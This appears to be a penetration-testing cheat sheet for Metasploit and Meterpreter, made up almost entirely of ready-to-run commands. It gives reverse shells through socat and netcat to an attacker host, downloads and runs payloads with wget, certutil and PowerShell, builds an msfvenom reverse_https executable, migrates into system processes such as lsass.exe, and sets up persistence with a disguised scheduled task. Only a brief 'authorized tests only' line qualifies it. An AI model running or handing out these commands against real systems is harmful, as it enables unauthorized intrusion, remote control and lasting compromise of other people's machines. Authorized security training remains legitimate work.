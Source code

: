 # Stable & Fully Interactive Shells — Cheat Sheet (Metasploit / Meterpreter)

> Ultra-compact reference: purely actionable commands & one-line labels. Replace `<...>`.

---

## Legend

* `SESSION`, `PID`, `LHOST`, `LPORT`, `RHOST`, `FILE` — replace as needed
* `meterpreter >` lines are Meterpreter; others are `msf6 >`, shell, or local attacker commands.

---

# 1 — Convert basic shell → fully interactive TTY (Linux)

```bash
# Python PTY (canonical)
python -c 'import pty; pty.spawn("/bin/bash")'

# Upgrade after backgrounding (on your terminal)
# 1) Ctrl+Z in remote shell
# 2) On local: stty raw -echo; fg
# 3) In remote shell: export TERM=xterm-256color; stty rows <R> columns <C>

# Use script if available
script -q /dev/null /bin/bash

# One-shot: use Python + /bin/sh if no bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

---

# 2 — Fully interactive via socat / netcat (most stable; requires binary upload)

```bash
# Attacker: prepare listener (local)
# Option A: nc (listener)
nc -lvnp <LPORT>

# Option B: socat listener (better)
socat file:`tty`,raw,echo=0 tcp-listen:<LPORT>

# Attacker: serve socat or netcat binary
# (on attacker) python3 -m http.server 80

# Target: download & run socat
wget http://<LHOST>/socat -O /tmp/socat; chmod +x /tmp/socat
/tmp/socat TCP:<LHOST>:<LPORT> EXEC:"/bin/bash",pty,stderr,setsid,sigint,sane
```

---

# 3 — Upgrade shell → Meterpreter (recommended whenever possible)

```bash
# From msfconsole: convert shell to meterpreter
msf6 > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION <SESSION>
msf6 post(multi/manage/shell_to_meterpreter) > run
```

---

# 4 — Stable interactive (Windows)

```bash
# 1) Upgrade shell → Meterpreter (same as Linux)
msf6 > use post/multi/manage/shell_to_meterpreter
set SESSION <SESSION>
run

# 2) Host & fetch a Meterpreter exe (if conversion not possible)
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT> -f exe -o met.exe
# serve it:
python3 -m http.server 80
# on target (cmd)
certutil -urlcache -split -f http://<LHOST>/met.exe met.exe
met.exe
# or (powershell)
powershell -c "Invoke-WebRequest 'http://<LHOST>/met.exe' -OutFile 'met.exe'; Start-Process met.exe"
```

---

# 5 — Meterpreter: make it resilient (migration & stability)

```bash
# show process info & migrate
meterpreter > getpid
meterpreter > ps
meterpreter > migrate <PID>

# common stable targets (choose by context):
# explorer.exe, services.exe, svchost.exe, winlogon.exe (use caution), lsass.exe (risky)

# spawn a new shell under a different user / process
meterpreter > execute -f C:\Windows\System32\cmd.exe -i -H
```

---

# 6 — Meterpreter persistence (one-liner examples)

```bash
# persistence (background reconnect)
meterpreter > run persistence -U -i 300 -p <LPORT> -r <LHOST>

# alternative: write a scheduled task (example Windows via shell)
meterpreter > shell
C:\> schtasks /Create /SC ONLOGON /TN "UpdSvc" /TR "C:\Windows\Temp\payload.exe" /RL HIGHEST
```

---

# 7 — Interactive helper one-liners & utilities

```bash
# spawn a PTY and keep terminal sane (quick)
python -c 'import pty,os; pty.spawn("/bin/bash")'; export TERM=xterm-256color; stty -a

# upgrade shell -> meterpreter (combined)
msf6 > run post/multi/manage/shell_to_meterpreter SESSION=<SESSION>

# background + migrate (Meterpreter)
meterpreter > background; sessions -u <SESSION>; sessions -i <NEW_SESSION>; migrate <PID>
```

---

# 8 — Troubleshooting quick tips (one-line)

```text
# Ctrl+C kills: use Ctrl+Z then stty raw -echo; fg
# Arrow keys/tab: set TERM and run `export TERM=xterm-256color`
# Programs like vim/top broken: use socat or a real PTY
# Meterpreter dying on process crash: migrate to long-running process
```

---

# 9 — Safety & OPSEC (short)

* Use **only** in authorized engagements.
* Avoid migrating into defensive/critical processes (lsass.exe) unless required and authorized.
* Persistence is noisy—document and coordinate with stakeholders.

---

Authorized tests only.
